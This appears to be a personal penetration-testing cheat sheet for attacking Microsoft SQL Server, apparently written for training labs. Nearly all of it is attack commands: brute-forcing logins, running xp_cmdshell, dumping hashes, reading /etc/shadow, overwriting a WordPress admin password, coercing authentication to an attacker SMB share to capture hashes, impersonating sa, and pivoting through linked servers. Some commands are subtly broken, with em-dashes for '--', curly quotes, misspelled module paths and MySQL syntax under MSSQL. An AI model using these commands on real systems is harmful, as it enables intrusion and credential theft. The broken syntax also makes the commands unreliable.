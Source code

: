 # **MSSSQL**

#### MSSQL Databases

MSSQL has default system databases that can help us understand the structure of all the databases that may be hosted on a target server. Here are the default databases and a brief description of each:

| Database | Description |
|----------|-------------|
| `master` | Tracks all system information for an SQL server instance. |
| `model` | Template database that acts as a structure for every new database created. Any setting changed in the model database will be reflected in any new database created after changes to the model database. |
| `msdb` | Used by the SQL Server Agent to schedule jobs and alerts. |
| `tempdb` | Stores temporary objects. |
| `resource` | Read-only database containing system objects included with SQL Server. |


--------------------------------------------------------------------
# Footprinting
### Nmap Scripts
```shell-session
$ sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248
```
```shell-session
nmap 0.0.0.0 -p 1433 —script ms-sql-info

nmap 0.0.0.0 -p 1433 —script ms-sql-info —script-args mssql-instance-port=1433

nmap 0.0.0.0 -p 1433 —script ms-sql-brute —script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt

nmap 0.0.0.0 -p 1433 —script ms-sql-empty-password

nmap 0.0.0.0 -p 1433 —script ms-sql-query —script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query=”SELECT * FROM master..syslogins” -oN output.txt”

nmap 0.0.0.0 -p 1433 —script ms-sql-dump-hashes —script-args mssql.username=admin,mssql.password=anamaria

nmap 0.0.0.0 -p 1433 —script ms-sql-xp-cmdshell —script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd=”ipconfig”
```

--------------------------------------------------------------------
### BRUTEFORCE

```
$ hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 0.0.0.0 mssql
```

--------------------------------------------------------------------
### Useful SQL Commands

```
$ show databases;

$ use books;

$ select * from authors;

$ select load_file(”/etc/shadow”)

$ UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';

http://<TARGET-IP>/8585/wordpress/wp-admin
```
## Read Local Files
```cmd-session
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```
--------------------------------------------------------------------
#### Connecting with Mssqlclient.py

If we can guess or gain access to credentials, this allows us to remotely connect to the MSSQL server and start interacting with databases using T-SQL (`Transact-SQL`). Authenticating with MSSQL will enable us to interact directly with databases through the SQL Database Engine. From Pwnbox or a personal attack host, we can use Impacket's mssqlclient.py to connect as seen in the output below. Once connected to the server, it may be good to get a lay of the land and list the databases present on the system.

```shell-session
$ python3 mssqlclient.py Administrator@10.129.201.248 -windows-auth
```


## Capture MSSQL Service Hash
```cmd-session
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```
```cmd-session
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```
```shell-session
$ sudo responder -I tun0
```
```shell-session
$ sudo impacket-smbserver share ./ -smb2support
```
## Impersonate Existing Users with MSSQL
```cmd-session
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```
#### Verifying our Current User and Role
```cmd-session
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```
#### Impersonating the SA User
```cmd-session
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```
## Communicate with Other Databases with MSSQL
#### Identify linked Servers in MSSQL
```cmd-session
1> SELECT srvname, isremote FROM sysservers
2> GO
```
```cmd-session
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO
```
--------------------------------------------------------------------
### Metasploit Modules
We can also use Metasploit to run an auxiliary scanner called `mssql_ping` that will scan the MSSQL service and provide helpful information in our footprinting process.
```shell-session
> auxiliary(scanner/mssql/mssql_ping)
```

```
- use auxiliary/scanner/mssql/mssql_login
> set user_file /root/Desktop/wordlist/common_users.txt
> set pass_file…

- use auxiliary/admin/ssql/ssql_enum

- use auxiliary/admin/ssql/ssql_enum_ssql_logins

- use auxiliary/admin/ssql/ssql_exec

- use auxiliary/admin/ssql/ssql_enum_domain_accounts
```



